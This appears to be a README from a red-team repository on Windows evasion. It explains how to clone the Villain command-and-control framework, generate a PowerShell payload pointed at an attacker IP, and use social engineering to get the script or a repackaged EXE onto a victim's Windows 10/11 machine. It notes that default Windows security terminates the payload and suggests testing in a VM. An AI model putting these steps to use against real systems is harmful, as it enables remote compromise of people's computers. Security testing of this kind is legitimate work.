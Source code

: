 # Villain

## Clone the Repository

```bash
git clone https://github.com/keralahacker/Villain
cd ./Villain
pip3 install -r requirements.txt
```
## Generate Payload

To generate a payload, use the following command:
```bash
generate os=windows lhost=IP
```
- IP Address: The IP address can be the C2 IP or a port forwarding HOST-IP.

![alt text](https://github.com/JOSHUAPBIJU/Project-win-evasion-RedTeam/blob/main/Resource/VILLAIN%20FRAMEWORK.png)

### above screenshot explanation
1. Using Python3, run Villain.py.
2. To generate a PowerShell payload, use "generate os=windows lhost=IP".
3. Once the payload is generated, copy it or use social engineering techniques to transfer the code to the victim's machine.
4. When the Villain PowerShell script is executed on the victim's Windows 10/11 machine, the default Windows security measures will isolate the process and terminate the payload from running further.

### Payload Details

- Once the payload is generated, it will be in PowerShell format. The attacker can use social engineering techniques to convert the PowerShell script from Villain to an EXE or zip file for executing the payload.

### Testing the Payload

- For testing the payload, use a Windows 10/11 VM with the latest security patches installed.

